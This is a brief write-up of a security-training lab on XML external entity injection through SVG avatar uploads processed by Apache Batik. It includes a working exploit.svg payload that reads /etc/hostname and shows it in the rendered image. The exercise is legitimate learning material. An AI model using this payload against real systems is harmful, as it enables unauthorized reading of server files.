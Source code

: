 *This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.*

Decided to post a comment. I created the following malicious `exploit.svg` file:
```exploit.svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
Uploaded the picture along with the comment:
![[Screenshot 2024-05-28 at 3.37.16 PM.png]]
I checked the comment after it was submitted. This is seen from the avatar picture:
![[Screenshot 2024-05-28 at 3.39.43 PM.png]]
Submitted this to solve the lab.
